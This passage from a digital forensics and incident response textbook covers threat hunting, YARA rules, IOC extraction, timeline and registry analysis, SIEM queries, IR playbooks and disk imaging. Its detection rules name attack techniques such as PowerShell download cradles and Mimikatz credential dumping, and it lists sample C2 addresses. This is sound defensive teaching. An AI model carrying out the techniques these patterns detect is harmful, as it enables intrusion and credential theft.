| I have 5 different security tools that don't talk to each other | SIEM + SOAR |
| I want automated containment of malicious processes | XDR |
| I need to investigate a multi-stage attack across email, endpoint, and cloud | XDR + SIEM |
# Chapter 8: Forensics & Incident Response

## 10. Threat Hunting & IOC Extraction

**Real-World Analogy:** SIEM alerts are like a fire alarm → something is already burning. Threat hunting is a fire inspector walking through the building looking for faulty wiring, blocked sprinklers, and gas leaks BEFORE they cause a fire. You're looking for the conditions that enable security incidents, not waiting for the alarm.

### 10.1 Threat Hunting Methodology


**The Hypothesis-Driven Hunting Process:**

```
Hypothesis → Data Collection → Investigation → Pattern Recognition → Response
```

**Step 1: Develop a Hypothesis**
- Based on threat intelligence, recent vulnerabilities, or organizational changes
- Example: "APT29 may have targeted our organization using the new Vecna vulnerability (CVE-2024-XYZ)"

**Step 2: Collect Relevant Data**
- Identify what logs, endpoints, and network data would confirm or disprove the hypothesis
- Example: Collect IOCs from threat intel, search endpoint process creation logs, check for specific registry keys

**Step 3: Investigate**
- Query SIEM, inspect endpoints, analyze network traffic
- Look for anomalous patterns that match the hypothesis

**Step 4: Pattern Recognition**
- Identify true positive findings vs false positives
- Correlate across multiple data sources

**Step 5: Respond**
- If threat is found: initiate IR process, contain, eradicate
- If not found: document the hunt, update detection rules for future visibility

**Hunting Maturity Model (HMM):**

| Level | Name | Description |
|-------|------|-------------|
| 0 | Initial | Relies solely on automated alerts |
| 1 | Minimal | Some manual investigation, no formal process |
| 2 | Procedural | Hunting follows documented procedures |
| 3 | Innovative | Creates new data sources and analytics |
| 4 | Leading | Automates successful hunt techniques across the organization |

### 10.2 YARA Rule Writing for Malware Detection


**Real-World Analogy:** A YARA rule is like a "wanted poster" for file patterns. Just as a wanted poster describes physical features (height, eye color, tattoos), a YARA rule describes byte patterns, strings, and metadata that identify a specific malware family.

**YARA Rule Structure:**

```yara
/*
   Rule Name: Description of what this detects
   Author: Name
   Date: YYYY-MM-DD
   Reference: Link to analysis
*/

rule Rule_Name : Tag1 Tag2
{
    meta:
        description = "Description of the rule"
        author = "Analyst Name"
        date = "2024-06-15"
        reference = "https://url-to-analysis"
        hash = "a8f5f167f44f4964e6c998d67f3b3b9e..."

    strings:
        $string1 = "malicious_string" ascii wide nocase
        $hex_string = { 4D 5A 90 00 03 00 00 00 04 00 00 00 FF FF }
        $regex = /https?:\/\/[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}/
        $byte_pattern = { E8 00 00 00 00 5D 48 81 EC 00 01 00 00 }

    condition:
        $string1 or $hex_string or $regex or $byte_pattern
}
```

**YARA Rule Examples:**

```yara
// Cobalt Strike Beacon Detection
rule CobaltStrike_Beacon
{
    meta:
        description = "Detects Cobalt Strike beacon artifacts"
        author = "DFIR Team"
        reference = "https://attack.mitre.org/software/S0154/"
        hash = "e4b90e2f0c7e1a3f5d8b0c6a2e9f1d4c7b8a0e3f"

    strings:
        $mz_header = "MZ"
        $beacon_config = "@@PIPE@@@" ascii wide
        $named_pipe = "\\\\.\\pipe\\msagent_" ascii wide
        $named_pipe2 = "\\\\.\\pipe\\status_" ascii wide
        $msself = "MSSELF" ascii
        $reflective_loader = { 55 8B EC 83 EC 10 56 57 8B 75 08 8B 7D 0C }

    condition:
        $mz_header at 0 and
        ($beacon_config or $named_pipe or $named_pipe2 or
         $msself or $reflective_loader)
}

// Mimikatz Detection
rule Mimikatz
{
    meta:
        description = "Detects Mimikatz credential dumping tool"
        author = "DFIR Team"
        reference = "https://attack.mitre.org/software/S0002/"

    strings:
        $sekurlsa = "sekurlsa::logonpasswords" ascii wide
        $mimidrv = "mimidrv" ascii wide
        $kiwi = "kiwi" ascii wide nocase
        $logonpass = "logonpasswords" ascii wide
        $wdigest = "wdigest" ascii wide
        $crypto = "crypto::" ascii wide

    condition:
        any of ($sekurlsa, $mimidrv, $logonpass, $kiwi) or
        2 of ($wdigest, $crypto)
}

// PowerShell Download Cradle Detection
rule PowerShell_DownloadCradle
{
    meta:
        description = "Detects PowerShell download cradle patterns"

    strings:
        $downloadstring = "DownloadString" ascii wide nocase
        $downloadfile = "DownloadFile" ascii wide nocase
        $webclient = "Net.WebClient" ascii wide nocase
        $invokeexpression = "Invoke-Expression" ascii wide nocase
        $iex = "IEX" ascii wide nocase
        $hidden = "WindowStyle Hidden" ascii wide
        $encoded = "-EncodedCommand" ascii wide
        $bypass = "ExecutionPolicy Bypass" ascii wide

    condition:
        $webclient and
        ($downloadstring or $downloadfile) and
        ($invokeexpression or $iex) and
        ($hidden or $encoded or $bypass)
}

// Ransomware File Marker Detection
rule Ransomware_FileMarker
{
    meta:
        description = "Detects common ransomware file markers"

    strings:
        $lockbit = "LOCKBIT" ascii wide
        $blackcat = "ALPHV" ascii wide nocase
        $blackbasta = "BLACKBASTA" ascii wide
        $conti = "CONTINUE" ascii wide nocase
        $clop = "CLOP" ascii wide
        $ransom_note = "HOW_TO_RECOVER" ascii wide

    condition:
        any of them
}

// C2 IP Address Pattern
rule C2_IP_Pattern
{
    meta:
        description = "Detects suspicious IP patterns in files"

    strings:
        $ip1 = /192\.168\.\d{1,3}\.\d{1,3}/  // Internal IP in unexpected context
        $port_high = /:\d{4,5}/                 // High port numbers
        $https_ip = /https?:\/\/\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}/

    condition:
        #ip1 > 5 and $port_high and $https_ip
}
```

**Using YARA:**

```bash
# Scan a file
yara malware_rules.yara suspicious_file.exe

# Scan a directory recursively
yara -r malware_rules.yara /evidence/extracted/

# Scan a memory dump
yara -s malware_rules.yara pid.3456.dmp

# Scan with metadata output
yara -m malware_rules.yara /evidence/carved/

# YARA with external variables
yara -d "option=scan" malware_rules.yara file.exe

# Compile YARA rules for performance
yarac rules.yarac rules.yara

# Scan using compiled rules
yara -C rules.yarac file.exe
```

**YARA Performance Tips:**
- Use `$` anchors for string position (`$mz at 0`)
- Prefer wide/nocase modifiers over additional strings
- Use reasonable condition complexity (avoid deep nesting)
- Match most specific strings first
- Test rules against both malware and clean files

### 10.3 IOC Extraction


**Indicators of Compromise (IOCs)** are artifacts that indicate a system may be compromised.

#### IOC Types

| Type | Examples | Extraction Source | Persistence | Evasion Difficulty |
|------|----------|-------------------|-------------|-------------------|
| **Network** | IP addresses, domains, URLs, user agents | Firewall logs, DNS logs, proxy logs | Low → IPs/domains change | Easy (fast flux, CDN) |
| **Host** | File hashes, registry keys, file paths, process names | EDR, Sysmon, file system | Medium → files can be renamed | Medium |
| **Memory** | Process injection patterns, loaded DLLs | Volatility, memory dumps | Very low → lost on reboot | Hard to hide from RAM |
| **Behavioral** | Command-line patterns, network timing | SIEM, UEBA | Not directly observable | Hard → requires changing behavior |
| **Email** | Sender addresses, subject lines, attachment names | Email gateway, M365 logs | Low → easily spoofed | Easy |
| **Account** | Usernames, SIDs, creation times | AD logs, auth logs | Medium | Medium |

#### IOC Extraction Commands

```bash
# Extract file hashes (SHA-256, SHA-1, MD5)
Get-ChildItem -Recurse -Path C:\evidence\ | ForEach-Object {
    $hash = (Get-FileHash -Path $_.FullName -Algorithm SHA256).Hash
    Write-Output "$hash | $($_.Name)"
} | Export-Csv -Path file_hashes.csv -NoTypeInformation

# Extract network IOCs from Zeek logs
# From conn.log:
zeek-cut id.resp_h < conn.log | sort -u > unique_ips.txt

# From dns.log:
zeek-cut query < dns.log | sort -u > domains_queried.txt

# From http.log:
zeek-cut host uri < http.log | sort -u > http_requests.txt

# Extract registry persistence locations
# Using Autoruns (Sysinternals)
autorunsc.exe -a -c -h > autoruns.csv

# Using RegRipper
rip.exe -r C:\evidence\NTUSER.DAT -f usrclass > user_assist.txt
rip.exe -r C:\evidence\SYSTEM -f system > system_info.txt
```

#### IOC Sharing Formats (STIX/TAXII)

```json
{
    "type": "indicator",
    "spec_version": "2.1",
    "id": "indicator--12345678-1234-1234-1234-123456789012",
    "created": "2024-06-15T14:30:00.000Z",
    "modified": "2024-06-15T14:30:00.000Z",
    "name": "Suspicious C2 IP",
    "description": "IP address used by Cobalt Strike C2 infrastructure",
    "indicator_types": ["malicious-activity", "attribution"],
    "pattern": "[ipv4-addr:value = '185.234.72.18']",
    "pattern_type": "stix",
    "valid_from": "2024-06-15T14:30:00.000Z",
    "kill_chain_phases": [
        {
            "kill_chain_name": "lockheed-martin-cyber-kill-chain",
            "phase_name": "command-and-control"
        }
    ]
}
```

### 10.4 Plaso (log2timeline) → Timeline Creation


**Real-World Analogy:** If the incident is a movie, Plaso creates the full storyboard showing every scene in chronological order. From the moment a file was created (scene 1) to when it was executed (scene 2) to when it connected to the C2 server (scene 3) → Plaso assembles all the frames into a single timeline.

```bash
# Step 1: Create a Plaso storage file from a disk image
log2timeline.py \
    --storage-file /evidence/case-001/timeline.plaso \
    --partition 1 \
    /evidence/case-001/disk-image.dd

# Step 2: Process a specific directory
log2timeline.py \
    --storage-file /evidence/case-001/timeline.plaso \
    /evidence/case-001/file-system-mount/

# Step 3: Add multiple sources to the same timeline
log2timeline.py --storage-file timeline.plaso disk-image.dd
log2timeline.py --storage-file timeline.plaso memory.raw
log2timeline.py --storage-file timeline.plaso /evidence/logs/

# Step 4: Export timeline to CSV
psort.py \
    -w /evidence/case-001/timeline.csv \
    /evidence/case-001/timeline.plaso

# Step 5: Filter timeline by date range
psort.py \
    -w /evidence/case-001/timeline_filtered.csv \
    /evidence/case-001/timeline.plaso \
    "date > '2024-06-14 00:00:00' AND date < '2024-06-16 00:00:00'"

# Step 6: Filter by specific event types
psort.py \
    -w /evidence/case-001/timeline_executable.csv \
    /evidence/case-001/timeline.plaso \
    "parser contains 'pe'"

# Step 7: Generate timeline report (HTML)
psort.py \
    -o l2tcsv \
    -w /evidence/case-001/timeline.html \
    /evidence/case-001/timeline.plaso
```

**Plaso Timeline Output Example (CSV):**
```
date,time,timezone,MACB,source,sourcetype,type,user,description,filename,inode,notes
2024-06-15,14:30:00.000,UTC,MACB,FILE,NTFS,M,...A...,jdoe,File Created,Invoice_2024.docm,45,From email attachment
2024-06-15,14:30:05.000,UTC,...B,FILE,NTFS,M,...B...,jdoe,File Modified,Invoice_2024.docm,45,Macro execution
2024-06-15,14:30:10.000,UTC,MACB,FILE,NTFS,M,MACB,system,File Created,beacon.dll,128,Dropped by macro
2024-06-15,14:30:12.000,UTC,....,PROC,Windows.EVTX,M,....,jdoe,Process Start,cmd.exe,3420,Parent: WINWORD.EXE
2024-06-15,14:30:15.000,UTC,....,PROC,Windows.EVTX,M,....,jdoe,Process Start,powershell.exe,3456,Parent: cmd.exe
2024-06-15,14:30:20.000,UTC,MACB,REG,Windows.Registry,M,...B...,system,Registry Key Modified,Run\UpdateService,,Persistence added
2024-06-15,14:30:25.000,UTC,....,NET,Zeek.Conn,M,....,N/A,TCP Connection,185.234.72.18:443,3456,PID 3456 initiated
2024-06-15,14:45:00.000,UTC,....,NET,Zeek.Conn,M,....,N/A,TCP Connection,192.168.1.50:445,3456,Lateral movement - SMB
2024-06-15,15:10:00.000,UTC,....,NET,Zeek.Conn,M,....,N/A,TCP Connection,198.51.100.50:21,3456,Data exfiltration - FTP
```

### 10.5 RegRipper → Registry Analysis


**Real-World Analogy:** The Windows Registry is like the ship's logbook on the Titanic. It records every program that was ever installed (crew assignments), every USB device that was connected (port visits), every file that was opened (navigation records), and what programs run at startup (daily routines). RegRipper is the expert reading that logbook.

```bash
# RegRipper CLI usage
rip.exe -r C:\evidence\NTUSER.DAT -p userassist > userassist_output.txt
rip.exe -r C:\evidence\NTUSER.DAT -p typedurls > typedurls_output.txt
rip.exe -r C:\evidence\NTUSER.DAT -p recently > recently_output.txt

# System hive
rip.exe -r C:\evidence\SYSTEM -p services > services_output.txt
rip.exe -r C:\evidence\SYSTEM -p network > network_info.txt

# Software hive
rip.exe -r C:\evidence\SOFTWARE -p installedapps > installed_apps.txt
rip.exe -r C:\evidence\SOFTWARE -p lastloggedon > last_logon.txt

# SAM hive
rip.exe -r C:\evidence\SAM -p samparse > user_accounts.txt

# Run all plugins on a hive
rip.exe -r C:\evidence\NTUSER.DAT -a > full_ntuser_analysis.txt
```

**Key Registry Locations for Forensics:**

| Registry Path | Artifact | Forensic Value |
|---------------|----------|----------------|
| NTUSER.DAT\Software\Microsoft\Windows\CurrentVersion\Explorer\UserAssist | Executed programs | Shows program execution count and timestamps |
| NTUSER.DAT\Software\Microsoft\Windows\CurrentVersion\Explorer\RecentDocs | Recently opened documents | File names and locations accessed |
| NTUSER.DAT\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU | Run command history | Commands typed in Run dialog |
| NTUSER.DAT\Software\Microsoft\Windows\CurrentVersion\Explorer\TypedURLs | URLs typed in IE | Typed URLs |
| NTUSER.DAT\Software\Microsoft\Internet Explorer\TypedURLsTime | Typed URLs with timestamps | When URLs were typed |
| NTUSER.DAT\Software\Microsoft\Windows\Shell\BagMRU | Shellbag data | Folder navigation history |
| SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall | Installed applications | Software inventory |
| SOFTWARE\Microsoft\Windows\CurrentVersion\Run | Startup programs | Persistence mechanisms |
| SYSTEM\CurrentControlSet\Services | Windows services | Service configuration, could be malware |
| SYSTEM\CurrentControlSet\Control\DeviceClasses\ | USB device history | Connected USB storage devices |
| SYSTEM\CurrentControlSet\Enum\USBSTOR | USB storage devices | Detailed USB device information |
| SAM\SAM\Domains\Account\Users | User accounts | User information, last logon, password hashes |
| NTUSER.DAT\Software\Microsoft\Windows\CurrentVersion\Explorer\MountPoints2 | Mapped drives | Network share access |

### 10.6 Windows Event Log Analysis


**Real-World Analogy:** A flight data recorder (black box) on an airplane records every button press, every system message, and every alert. Windows Event Logs are the flight data recorder for a computer. They record every login (takeoff), failed attempt (rough landing), service start (engine ignition), and application crash (turbulence).

```bash
# Using wevtutil (native Windows)
# Export specific event logs
wevtutil epl Security C:\evidence\Security.evtx
wevtutil epl System C:\evidence\System.evtx
wevtutil epl Application C:\evidence\Application.evtx
wevtutil epl "Windows PowerShell" C:\evidence\PowerShell.evtx
wevtutil epl "Microsoft-Windows-Sysmon/Operational" C:\evidence\Sysmon.evtx

# Query specific event IDs
wevtutil qe Security /q:"Event[System[(EventID=4624)]]" /c:100 /f:text

# Using PowerShell
# Get log file info
Get-WmiObject -Class Win32_NTEventlogFile | Select-Object LogFileName, FileSize

# Export with PowerShell
Get-WinEvent -LogName Security | Export-Csv -Path security_events.csv -NoTypeInformation

# python-evtx → parse EVTX files
python3 -c "
import evtx
with evtx.Evtx('Security.evtx') as log:
    for record in log.records():
        xml = record.xml()
        print(xml[:500])
        print('---')
"
```

**Critical Windows Event IDs for IR:**

| Event ID | Description | Source | Forensic Significance |
|----------|-------------|--------|---------------------|
| **4624** | Successful logon | Security | User authentication, lateral movement |
| **4625** | Failed logon | Security | Brute force, password guessing |
| **4634** | Logoff | Security | Session end time |
| **4648** | Logon with explicit credentials | Security | RunAs, scheduled task execution |
| **4672** | Admin logon (special privileges) | Security | Privileged account usage |
| **4688** | Process creation | Security | Malware execution, command-line arguments |
| **4689** | Process exit | Security | Process termination |
| **4697** | Service installed | Security | Malware persistence |
| **4700** | Task scheduled | Security | Malware scheduled task |
| **4720** | User account created | Security | Backdoor account creation |
| **4726** | User account deleted | Security | Evidence tampering |
| **4732** | User added to security group | Security | Privilege escalation |
| **4776** | Credential validation | Security | Domain authentication attempts |
| **5140** | SMB share accessed | Security | Lateral movement via file shares |
| **5156** | Network connection allowed | Security | Outbound/inbound connections |
| **7045** | Service installed (System) | System | Malware service installation |
| **1** | Process creation (Sysmon) | Sysmon | Detailed process creation with hash |
| **3** | Network connection (Sysmon) | Sysmon | Detailed network connections |
| **7** | DLL loaded (Sysmon) | Sysmon | DLL injection detection |
| **8** | CreateRemoteThread (Sysmon) | Sysmon | Process injection detection |
| **10** | Process access (Sysmon) | Sysmon | Lsass access (credential dumping) |
| **11** | File creation (Sysmon) | Sysmon | Malware file creation |
| **13** | Registry value set (Sysmon) | Sysmon | Persistence via registry |
| **15** | File stream (Sysmon) | Sysmon | Alternate data stream creation |
| **22** | DNS query (Sysmon) | Sysmon | C2 domain lookups |
| **4103** | PowerShell pipeline execution | PowerShell | PowerShell command execution |
| **4104** | PowerShell script block logging | PowerShell | Full script content (if enabled) |

**Splunk Queries for SOC Analysis:**

```spl
# Suspicious Process Creation
index=windows EventCode=4688
| search New_Process_Name IN ("*powershell*", "*cmd*", "*wscript*", "*cscript*", 
                              "*mshta*", "*regsvr32*", "*rundll32*", "*certutil*")
| rex field=CommandLine "(?<cmd>[^\\\]+(?=\s|$))"
| stats count by User, New_Process_Name, cmd, ComputerName
| sort - count
| table User, New_Process_Name, cmd, ComputerName, count

# Lateral Movement Detection (Event ID 4624 with explicit credentials)
index=windows EventCode=4648
| search Target_Server_Name=*
| stats count by Account_Name, Target_Server_Name, Process_Name, IpAddress
| where count > 5
| table Account_Name, Target_Server_Name, Process_Name, IpAddress, count

# RDP Brute Force Detection
index=windows EventCode=4625 Logon_Type=10
| stats count by Account_Name, Source_Network_Address
| where count > 10
| table Account_Name, Source_Network_Address, count

# PowerShell Encoded Command Detection
index=windows (EventCode=4688 OR Source="WinEventLog:Microsoft-Windows-PowerShell/Operational")
| search "-EncodedCommand" OR "-enc " OR "*DownloadString*" OR "*Invoke-Expression*"
| stats count by User, ComputerName, CommandLine
| table User, ComputerName, CommandLine, count

# Service Installation (Event ID 4697 / 7045)
index=windows (EventCode=4697 OR EventCode=7045)
| search Service_Type IN ("*kernel*", "*file system*")
    OR Service_Start_Name IN ("*LocalSystem*")
    OR NOT Image_Path IN ("C:\\Windows\\System32\\*", "C:\\Program Files\\*")
| table Time, ComputerName, Service_Name, Image_Path, Service_Start_Name

# Failed Logins by Source IP
index=windows EventCode=4625
| search Logon_Type=3
| stats count by Source_Network_Address, Account_Name
| where count > 50
| table Source_Network_Address, Account_Name, count
| sort - count
```

**ELK (Elasticsearch) Queries for SOC Analysis:**

```json
// Find Base64 encoded PowerShell commands
GET /windows-logs-*/_search
{
  "query": {
    "bool": {
      "must": [
        { "match": { "EventID": 4688 } },
        { "regexp": { "CommandLine": ".*[A-Za-z0-9+/]{40,}==?.*" } }
      ]
    }
  },
  "size": 50
}

// Detect network connections to known bad IPs
GET /sysmon-logs-*/_search
{
  "query": {
    "terms": {
      "DestinationIp": [
        "185.234.72.18",
        "198.51.100.50",
        "203.0.113.0"
      ]
    }
  },
  "sort": [ { "@timestamp": "desc" } ]
}

// Find DLL load events from suspicious locations
GET /sysmon-logs-*/_search
{
  "query": {
    "bool": {
      "must": [
        { "match": { "EventID": 7 } },
        { "wildcard": { "ImageLoaded": "*\\Temp\\*" } }
      ]
    }
  },
  "aggs": {
    "by_process": {
      "terms": { "field": "Image.keyword", "size": 20 }
    }
  }
}
```

### 10.7 MFTECmd → MFT Parsing


```powershell
# Parse MFT file to CSV
MFTECmd.exe -f "C:\evidence\$MFT" --csv "C:\evidence\mft_output.csv"

# Parse with detailed information (bodyfile format)
MFTECmd.exe -f "C:\evidence\$MFT" --body "C:\evidence\mft_bodyfile.txt" --bodyfull

# Parse and include file content (SLACK space analysis)
MFTECmd.exe -f "C:\evidence\$MFT" --csv "C:\evidence\mft_output.csv" --deleted

# Filter by date range
MFTECmd.exe -f "C:\evidence\$MFT" --csv "C:\evidence\mft_output.csv" --fndate "2024-06-15"

# Find specific file
MFTECmd.exe -f "C:\evidence\$MFT" --csv "C:\evidence\mft_output.csv" --fn "beacon.dll"
```

**MFTECmd Output Fields:**

| Column | Description | Example |
|--------|-------------|---------|
| EntryNumber | MFT entry number | 45 |
| ParentEntryNumber | Parent directory entry | 5 |
| Name | File name | Invoice_2024.docm |
| Extension | File extension | docm |
| Created0x10 | $SI Creation time | 2024-06-15 14:30:00 |
| Modified0x10 | $SI Modified time | 2024-06-15 14:30:05 |
| Created0x30 | $FN Creation time | 2024-06-15 14:30:00 |
| Modified0x30 | $FN Modified time | 2024-06-15 14:30:05 |
| FileSize | Size in bytes | 124536 |
| Flags | Entry flags | File, Deleted |
| IsDirectory | Is directory flag | False |
| IsDeleted | Deleted flag | True |
| Slack | Slack space in bytes | 456 |
| Resident | Data is resident in MFT | False |
| SequenceNumber | Incremented on reuse | 2 |
| ParentName | Parent directory name | Downloads |

### 10.8 Incident Response Playbooks


**Real-World Analogy:** A pilot doesn't improvise when an engine fails mid-flight. They follow a laminated checklist: "Engine failure after V1 → rotate, climb to 400 feet, contact ATC, run emergency checklist." IR playbooks are the same → they ensure critical steps are not missed under stress.

**Ransomware Playbook:**

```
╔════════════════════════════════════════════════════════════╗
║          RANSOMWARE INCIDENT RESPONSE PLAYBOOK            ║
║                Version 1.0 | IR-PB-001                    ║
╚════════════════════════════════════════════════════════════╝

1. DETECTION
   □ Alert: Files being renamed to .encrypted, .locked, .crypted
   □ Alert: Ransom note files (README.txt, HOW_TO_RECOVER.txt)
   □ Alert: Mass file modification events (Sysmon ID 11)
   □ Alert: User reporting "files won't open"

2. TRIAGE (within 5 minutes)
   □ Confirm ransomware variant (note text, extension)
   □ Identify affected systems count
   □ Check if encryption is still in progress
   □ Check if backups are affected
   □ Determine data criticality

3. CONTAINMENT (within 15 minutes)
   □ Isolate affected systems from network (pull cable, disable NIC)
   □ Disable Active Directory accounts of affected users
   □ Block ransomware C2 IPs at firewall
   □ If ransomware is spreading via SMB: block SMB at switches
   □ Disable any network shares that may propagate
   □ Capture memory dumps from affected systems
   □ Image affected hard drives (before reboot)

4. ERADICATION (within 1 hour)
   □ Identify patient-zero system
   □ Determine infection vector (phish, RDP, VPN, etc.)
   □ Remove ransomware from systems (safe mode scan, removal tool)
   □ Or reimage affected systems from known-clean image
   □ Change all domain passwords
   □ Rotate all service account credentials
   □ Apply necessary patches

5. RECOVERY (within 24 hours)
   □ Validate clean backups exist (not encrypted)
   □ Restore critical systems from backup first
   □ Scan restored files for malware before reconnecting
   □ Restore less critical systems in phases
   □ Monitor restored systems for signs of re-infection

6. POST-INCIDENT (within 1 week)
   □ Conduct root cause analysis
   □ Update detection rules (YARA, SIEM)
   □ Improve email filtering and web filtering
   □ Implement AppLocker/Software Restriction Policies
   □ Update backup strategy (immutable backups)

SEVERITY: 
   □ 1 system affected → P3
   □ 2-10 systems affected → P2
   □ 10+ systems or critical server → P1
   □ Data exfiltration detected → P1 + Legal

DECISION POINTS:
   □ Pay ransom? Yes / No (needs CEO + Board + Legal)
   □ Contact law enforcement? Yes / No
   □ Public disclosure? Yes / No
```

**Phishing Incident Playbook:**

```
╔════════════════════════════════════════════════════════════╗
║         PHISHING INCIDENT RESPONSE PLAYBOOK               ║
║                Version 1.0 | IR-PB-002                    ║
╚════════════════════════════════════════════════════════════╝

1. USER REPORTING
   □ User reports suspicious email to security@company.com
   □ User forwards email to phishing mailbox
   □ User reports via PhishAlarm button

2. TRIAGE (within 5 minutes)
   □ Extract email headers (Received, SPF, DKIM, DMARC)
   □ Identify links and attachments in email
   □ Extract sender domain and IP
   □ Check if similar phishes reported by others
   □ Determine phishing type (credential, malware, BEC)

3. ANALYSIS (within 15 minutes)
   □ Submit URL to URL scanner (VirusTotal, urlscan.io)
   □ Submit attachment to sandbox (any.run, Joe Sandbox)
   □ Analyze email headers for spoofing indicators
   □ Check if any user clicked the link
   □ Check if any user entered credentials

4. CONTAINMENT (within 15 minutes if users compromised)
   □ If credentials stolen: force password reset for all recipients
   □ Enable MFA if not already enabled
   □ Remove malicious emails from all inboxes:
     Get-ComplianceSearch -Name "Phish-Removal" | 
       New-ComplianceSearchAction -Purge -PurgeType HardDelete
   □ Block sender domain at email gateway
   □ Block malicious URLs at web proxy

5. ERADICATION
   □ If malware: scan affected endpoints
   □ If credential phishing: verify no other accounts compromised
   □ Check for mailbox rules created by attacker (forwarding)

6. RECOVERY
   □ Remove blocked sender after threat expired
   □ Restore any deleted legitimate emails caught in purge

7. POST-INCIDENT
   □ Add email template to phishing training
   □ Update email gateway rules
   □ Brief users on this specific phish
```

### 10.9 Incident Severity Classification


**NIST-Based Classification:**

| Class | Criteria | Examples | Response |
|-------|----------|----------|----------|
| **Category 1** | Unauthorized access, data exfiltration | Attacker gained admin access, customer data stolen | Full CSIRT activation, Legal, PR |
| **Category 2** | Malware requiring manual containment | Ransomware on 1+ servers | CSIRT activation, containment |
| **Category 3** | DoS, targeted scanning | DDoS attack, port scans | IT operations + SOC |
| **Category 4** | Phishing, social engineering | Phish campaign, single user compromised | SOC triage, user training |
| **Category 5** | Policy violation | User installing unauthorized software | HR + IT |

---

## 11. Practical Examples → Full Tool Walkthroughs

### 11.1 FTK Imager / dd → Disk Image Acquisition


**Scenario:** Acquire a forensic image of a compromised Windows workstation's hard drive.

```bash
# Method 1: FTK Imager (GUI)
# 1. Launch FTK Imager (Run as Administrator)
# 2. File → Create Disk Image
# 3. Select Source: Physical Drive (or Logical Drive)
# 4. Select the compromised drive (e.g., \\.\PHYSICALDRIVE1)
# 5. Click Next
# 6. Evidence Item Information:
#    - Case Number: IR-2024-001
#    - Evidence Number: 001
#    - Unique Description: HR-01 Compromised Workstation
#    - Examiner: John Smith
#    - Notes: Acquired after memory capture, write-blocker used
# 7. Image Destination:
#    - Image Type: dd (raw) or E01 (EnCase with compression)
#    - Destination: D:\evidence\case-001\
#    - Image Name: HR-01
#    - Fragment Size: 0 (no splitting)
#    - Compression: 0 (none) for dd, 1-9 for E01
# 8. Verify Images: Check "Verify images after they are created"
# 9. Create AD1 (logical evidence file): Optional
# 10. Start → Progress bar shows acquisition (typically 15-60 min for 500 GB)
# 11. Result: HR-01.dd (raw image) + HR-01.txt (verification report)

# Method 2: dd (command line)
# Identify the drive
lsblk
# Example: /dev/sdb is the compromised drive (500 GB SSD)

# Acquire the image
sudo dc3dd if=/dev/sdb \
    of=/evidence/case-001/hr-01.dd \
    hash=sha256 \
    hof=/evidence/case-001/hr-01.sha256 \
    log=/evidence/case-001/acquisition.log \
    bs=4M \
    progress=on

# Expected output:
# 122097MiB 0% read | ETA: 0:12:34 | 45.2 MiB/s
# 244195MiB 25% read | ETA: 0:09:22 | 44.8 MiB/s
# ...
# 488373MiB 100% read | ETA: 0:00:00 | 45.0 MiB/s
# Total bytes read: 512110190592 (500GB)
# SHA256: a8f5f167f44f4964e6c998d67f3b3b9e...
# Input hash verified against output

# Verify the image
sha256sum /evidence/case-001/hr-01.dd
# Compare with the hash in acquisition.log → they must match

# Method 3: FTK Imager (CLI)
fcapture.exe \
    /evidence="\\.\PHYSICALDRIVE1" \
    /destination="D:\evidence\case-001\HR-01" \
    /verify=true \
    /format=raw
```

### 11.2 Autopsy / Sleuth Kit → File System Analysis and Recovery


**Scenario:** Analyze the acquired disk image to find deleted files and reconstruct the attack timeline.

```bash
# Step 1: Load the image into Sleuth Kit
# View partition layout
mmls /evidence/case-001/hr-01.dd

# Example output:
# Slot  Start       End          Size        Description
# 00:   0000000000  0000000000   0000000512  Primary Table
# 01:   0000002048  976773167    0976771120  NTFS (0x07)
# 02:   976773168  976773134    0000000000  Unallocated

# Step 2: List files from the NTFS partition (offset 2048)
fls -o 2048 -r /evidence/case-001/hr-01.dd > /evidence/case-001/file_list.txt

# Show deleted files
fls -o 2048 -rd /evidence/case-001/hr-01.dd | head -50

# Example output:
# r/r 45:    Invoice_2024.docm (deleted)
# r/r 46:    .invoice_tmp (deleted)
# r/r 128:   beacon.dll (deleted)
# r/r 129:   update_service.exe (deleted)
# d/d 130:   .malware_temp (deleted)

# Step 3: Get metadata for the deleted beacon.dll
istat -o 2048 /evidence/case-001/hr-01.dd 128

# Example output:
# MFT Entry Header Values:
# Entry: 128        Sequence: 2
# $LogFile Sequence Number: 18446744073709551615
# Links: 0
# $STANDARD_INFORMATION
#   Created:    2024-06-15 14:30:12
#   File Modified: 2024-06-15 14:30:12
#   MFT Modified:  2024-06-15 14:30:12
#   Accessed:      2024-06-15 14:30:12
# $FILE_NAME
#   Created:    2024-06-15 14:30:12
#   File Modified: 2024-06-15 14:30:12
#   MFT Modified:  2024-06-15 14:30:12
#   Accessed:      2024-06-15 14:30:12
# Parent Ref: 5 (Downloads)
# $DATA
#   File Size: 342016 bytes
#   Clusters: 84 (non-resident)
#   1280 - 1363

# Step 4: Recover the deleted beacon.dll
icat -o 2048 /evidence/case-001/hr-01.dd 128 > /evidence/case-001/recovered/beacon.dll

# Verify the recovered file
file /evidence/case-001/recovered/beacon.dll
# Output: PE32+ executable (DLL) (GUI) x86-64, for MS Windows

sha256sum /evidence/case-001/recovered/beacon.dll
# Check hash against VirusTotal

# Step 5: Recover all deleted files
tsk_recover -o 2048 -e /evidence/case-001/hr-01.dd /evidence/case-001/recovered/

# Step 6: Use Autopsy (GUI) for visual timeline analysis
# 1. Launch Autopsy
# 2. Create New Case → Case Name: IR-2024-001
# 3. Add Data Source → Disk Image → hr-01.dd
# 4. Select ingest modules:
#    □ Recent Activity
#    □ Hash Lookup (NSRL)
#    □ File Type Identification
#    □ Extension Mismatch Detection
#    ☑ Email Parser
#    ☑ Interesting Files Identifier
#    □ Keyword Search (add: "password", "admin", "185.234.72")
#    □ Timeline
# 5. Run Ingest (may take 30-60 min for 500 GB)
# 6. Results view:
#    - Deleted Files → recovered beacon.dll, update_service.exe
#    - Interesting Files → .docm with macro, password-protected ZIP
#    - Timeline → events at 14:30:00 spike
#    - Keyword Hits → "https://185.234.72.18/payload" found in unallocated space
#    - Email → phishing email in Outlook PST
```

### 11.3 Volatility 3 → Full Memory Analysis Walkthrough


**Scenario:** Analyze a memory dump from a compromised system with fileless malware.

```powershell
# Step 1: Verify the memory dump
python3 vol.py -f memory.raw windows.info

# Output:
# Volatility 3 Framework 2.5.0
# Windows Version: Windows 10 Version 1909 (Build 18363)
# Number of Processors: 4
# Image Date: 2024-06-15 14:30:00 UTC
